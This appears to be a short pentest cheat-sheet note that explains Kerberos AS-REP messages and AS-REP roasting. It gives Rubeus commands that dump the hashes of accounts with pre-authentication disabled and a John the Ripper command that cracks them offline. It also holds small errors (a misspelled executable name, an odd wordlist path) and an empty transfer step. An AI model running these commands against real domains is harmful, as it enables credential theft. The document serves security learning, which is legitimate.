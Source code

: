 #### AS-REP (Authentication Service Reply)
**AS-REP** is the ***Authentication Service response message***, which is used to request a ***Ticket Granting Ticket (TGT)*** in Kerberos. When a client sends an ***AS-REQ*** to the KDC's Authentication Service, it typically includes a ***timestamp encrypted with the user's password hash***. The AS validates this by decrypting the timestamp. If successful, it issues an ***AS-REP*** containing two parts: one encrypted with the user's password, and the other being the ***TGT*** for future authentication. This process is known as Kerberos `pre-authentication.`

#### What is an AS-REP roasting attack?
Kerberos authentication uses the `pre-authentication` feature as its ***first measure to prevent offline brute-forcing attacks*** against domain user credentials. **AS-REP roasting** attacks are possible when an account doesn't need `pre-authentication`, having had the feature `disabled` in AD, often for backward compatibilities with legacy Kerberos libraries.

When `pre-authentication` is disabled, a malicious user can directly request authentication info from the DC. This would return a message with an encrypted part of the ticket which can be brute forced offline, also known as AS-REP roasting.

#### AS-REP Roasting with Rubeus
This toolset has an inbuilt function that ***queries the DC for all domain accounts that have `pre-authentication` disabled***, and further ***dumps its hashes***.

**Execute Rubeus**
```powershell
.\Rebues.exe asreproast
```

**Execute Rubeus to Save the Hash in a specific format**
```powershell
.\Rebues.exe asreproast /format:john /outfile:hashes.txt
```

#### Transfer the Hash file to your Kali 
```bash 

```
#### Bruteforce Credentials
```bash
john --wordlist=/var/usr/share/wordlists/rockyou.txt <hashes.txt>
```